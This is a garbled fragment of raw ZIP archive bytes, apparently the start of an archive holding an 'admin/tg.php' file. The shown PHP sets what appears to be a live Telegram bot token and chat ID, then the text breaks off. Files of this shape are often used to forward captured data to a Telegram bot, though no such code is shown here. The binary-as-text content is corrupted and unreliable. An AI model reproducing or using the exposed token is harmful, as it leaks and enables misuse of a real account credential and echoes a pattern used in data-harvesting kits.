 PK
     9z�V              admin/UT	 m�>de2^dux 4'  �  PK
     9z�V�3�q[   [     admin/tg.phpUT	 m�>d$*^dux 4'  �  <?php
$token ="7298110846:AAFd34E-0HfwnaxWCVz0OmlAJSqIETa_k8o";
$chatid = "1655721195";
